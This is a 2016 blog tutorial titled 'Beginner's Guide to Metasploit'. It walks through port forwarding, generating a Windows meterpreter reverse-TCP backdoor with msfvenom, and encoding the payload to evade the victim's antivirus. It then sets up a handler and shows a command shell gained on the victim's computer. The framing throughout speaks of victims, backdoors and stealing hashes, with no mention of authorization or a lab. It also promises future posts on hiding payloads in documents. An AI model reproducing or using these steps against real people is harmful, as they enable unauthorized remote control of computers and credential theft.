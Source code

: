 ```yaml
---
layout:     post
comments:   true
title:      "Beginner's Guide to Metasploit"
subtitle:   "Linux, not Windows"
date:       2016-03-27 12:00:00
author:     "ex0dus"
header-img: "img/PostBG/post-bg-06.png"
---
```

Due to popular request, I'm going to teach Metasploit.

**Metasploit** is a pen testing framework suite written in the Ruby programming language. People use Metasploit to commonly gain access to a computer, through exploits, which find flaws, whether in the system or software the victim has and allows you to gain access.

It is pretty complicated, so I will be covering some of the essentials in a simple tutorial. We will set up a basic so-called "virus". Technically it’s a payload that acts as a backdoor, so that once the user executes it, you get ahold of their computer.

This tutorial will mostly base around the premise that your target is outside your network, so there is going to be a little configuration.

## Installing

If you are on Kali Linux, which is recommended, metasploit is automatically installed, as I have said before. Simply type **"msfconsole"** to get started. I recommend using the Linux version. The Windows version is pretty limited and is kind of shit. If you are on Ubuntu like me, and want to install it, good luck. This was probably one of the hardest things I've ever done. You might as well use Kali on VM if you can't install it. But if you are hardcore, click [**Here**](http://www.darkoperator.com/installing-metasploit-in-ubunt/)

## Getting Started

1\. Type "ifconfig" in your terminal. Obtain your inet address, most likely in wlan0 or eth0 (it should be 192.168.x.x for most). This is your computers given address on your network. ![](http://i.imgur.com/Ef7BPHX.png)

2\. Open your router settings. This is achieved by typing 192.168.1.1 in your browser (search it up if it isn't it. Every router brand is different. I use a Verizon router). ![](http://i.imgur.com/3ol73Gt.png)
3\. Find out where port forwarding is. There may be a tab called “Firewall” you might have to click. Again, all router brands are different in terms of settings and configuration, so you might have to go on the Internet and search it up. For my Verizon router, there is a tab called “Firewall”. After clicking on it, I get routed to another page, where this a tab on the side called “Port Forwarding”. ![](http://i.imgur.com/KV6h0aT.png) 4\. Enter the IP address you had previously, the one for your computer. Port forward port “4444”. What will happen is, when you receive a request for a connection to your public IP address through port 4444, it will be rerouted to your local IP. It’s kind of like a map. Port forwarding is me building a shortcut. 5\. In your terminal, we will make our payload. Type:

    msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00′ LHOST=[your PUBLIC IP] LPORT=4444 -f exe > payload.exe

Let’s break this down. **MSFvenom** is the payload creation script (it was originally msfpayload). **–P** is the parameter to pass that signifies what kind of payload we are creating. In this case, we are creating a **windows/meterpreter/reverse_tcp** one. This kind of payload will create a shell called Meterpreter, which is like the Command Line, but for hackers. I’ll get to it later. **–E x86/shikata_ga_nai** is the parameter for encoding the payload using shikata_ga_nai, where we mask it so that the victim’s anti-virus won’t detect the payload, since it is technically, a virus. Encoding a payload using MSFvenom isn’t really effective anymore, but it is for the sake of demonstration. Don’t worry, there are ways to mask payloads and bypass AV. I will talk about it later. **–I 5** means we encode it 5 times. **–B ‘x/00’** has something to do with shellcode, and we won’t really get into it. Now however the next part, LHOST and LPORT is important. You will enter your public IP address in LHOST. Public, not the 192.168.x.x one. Your LPORT will be 4444\. This means that once the victim opens the payload, a connection will be sent to your public IP, and it will forwarded to your local IP (the 192.168.x.x one), where a listener will be set up (we will do this in the next 2 steps). 6\. After you press enter, the payload will generate. Open another terminal and type “msfconsole”. You will see an interpreter-style-thingy like this: ![](http://i.imgur.com/uOFGncN.png) 7\. After your payload is generated, it should be in your /root/ directory. Leave it where it is for now. In your terminal with Metasploit open, type

    msf > use exploit/multi/handler

8\. This is the handler that will be set up to handle the incoming request from the victim's computer. Now type in:

    msf exploit(handler) > set LHOST=[your LOCAL IP here]

9\. We will establish a listener that will listen for the request. It will be hosted on your computer, hence the LOCAL IP.

<pre>**msf exploit(handler) >**set LPORT=4444</pre>

10\. This establishes the port. Now type:

<pre>**msf exploit(handler) >**show options</pre>

11\. Everything should be set and in place. Now type run:

    msf exploit(handler) >run
    12\. You will see something like:
    [*]Started reverse handler on 192.168.x.x:4444
    [*]Starting the payload handler…

13\. You have set up your handler and listener! Now in order to get a Meterpreter shell, a victim needs to open your payload. Doing so, a connection will be sent back, and your listener will intercept the connection and the handler will start a meterpreter session, which looks like:

<pre>**meterpreter>**</pre>

14\. Congrats! You learnt the basics of Metasploit. Now you may ask, what to do with meterpreter? Well, here’s an example:

    meterpreter> shell
    Process 2314 created
    Channel 1 created
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation. All rights reserved.
    C:\Windows\System32>

This establishes a Windows Command Prompt shell and now you have access over the victim's computer! You can do much more with Meterpreter. You can take a screeshot of the victim's computer, see system processes, steal hash, etc. Here’s a list: [**Null Byte**](http://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/)

Well that is all. This article was probably a little dull, but I will soon elaborate on this tutorial. I will talk about exploitation through obfuscating payloads in PDF files, text documents, videos, etc. I will also talk about bypassing AV (anti-virus), since many modern day AVs detect these Metasploit payloads as viruses and backdoors.

## I have set up a Contact Form in the **Contact** section of this site! Please do not hesistate to use it if you have any inquiries
